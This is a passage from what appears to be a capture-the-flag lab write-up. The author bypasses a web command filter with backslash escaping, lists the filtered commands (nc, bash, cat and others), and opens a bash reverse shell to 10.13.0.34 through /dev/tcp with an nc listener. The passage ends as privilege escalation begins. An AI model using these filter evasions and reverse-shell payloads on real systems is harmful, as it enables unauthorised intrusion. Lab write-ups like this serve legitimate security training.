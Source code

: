 Let's try to run a simple `whoami`, this time we see it runs correctly:

![](https://i.imgur.com/EFE0CiM.png)

We also now which username we have access to.

If we enter the command `dir` we do get a couple of results back, confirming that not all commands are indeed being filtered:

![](https://i.imgur.com/utbMug4.png)

and if we try to append a `/images` to the URL, we see the following:

![](https://i.imgur.com/cIgJPOQ.png)

There we can see both gif files that we can get when entering commands. Ok let's get back to the command page. We know that some commands are filtered and some commands will run just fine. We really need to get a better idea of which commands are blocked.

Let's see if we can bypass the filtering by scaping some characters, in this case we can try using the `\` (backslash) in between our commands letters and see if that manages to go through:

![](https://i.imgur.com/8EVpuBY.png)

Great, we can somewhat bypass the filtered commands using the backslash. Let's see now if we can get a look at that php file where we could possibly find the filtering code that is preventing us from running all commands:

After running the command `c\at index.php` we can inspect the page code and see the following:

![](https://i.imgur.com/T5Vmso7.png)

By doing that now we have a clear picture of what this command page is doing, the following commands are being filtered:

- nc, bash, php, perl, rm, cat, head, tail, python, python3, more, less, sh and ls.

And we also learned that the page is using `php echo sheel_exec($cmd)` to execute the commands.

Let's see if we can get a reverse shell, let's take this code for example:

`bash -c 'exec bash -i &>/dev/tcp/10.13.0.34/2112 <&1'`

if we try to bypass the filter, we could try tweak it like this before running it:

`b\ash -c 'exec b\ash -i &>/dev/tcp/10.13.0.34/2112 <&1'`

> NOTE: Make sure to do a `nc -nlvp 2112` before running the command.

![](https://i.imgur.com/ZyxEwk2.png)

That worked, we now have our initial access to the machine.


## Escalating Privs

Now that we have our initial access into the target, we need to find a way to escalate privileges so we can get the flags. Lets see which additional details about the current user we can get. Let's run `id` and `sudo -l` to get more info about the groups the user belongs to and if he has any permissions to run a command as sudo:
